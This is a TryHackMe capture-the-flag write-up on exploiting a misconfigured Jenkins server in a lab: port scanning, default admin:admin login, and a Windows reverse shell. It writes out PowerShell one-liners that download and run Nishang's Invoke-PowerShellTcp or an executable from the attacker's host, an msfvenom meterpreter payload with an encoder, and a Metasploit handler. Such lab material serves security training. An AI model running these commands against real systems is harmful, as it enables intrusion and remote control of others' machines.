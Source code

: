 # TryHackMe: Exploiting Jenkins

### Task 1 - Initial Access

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access.

Since this is a Windows application, we'll be using Nishang to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the reverse shell scripts
Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

``` bash
$ export ip=10.10.250.97
$ nmap -sC -sV -oX scans/nmap-jenkins.xml $ip
```

How many ports are open? (TCP only)

```
3
```

2. What is the username and password for the log in panel(in the format username:password)

```
admin:admin
```

I just guessed based on the format in the input box of the answer field on THM. :)

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server

```
Found: PS C:\Program Files (x86)\Jenkins> cat secret.key
cb2ae36e1862a23b3adfd393282eae76f896f2efb0a4da79643e33afc616751e
```

4. No Answer Needed

5. What is the user.txt flag?


msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.46.221 LPORT=4443 -f exe -o reverse.exe

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.46.221:8000/reverse.exe','reverse.exe')"

or

powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.46.221:4443/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.46.221 -Port 4443

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.6.46.221 set LPORT 4443 run

Start-Process "reverse_shell.exe"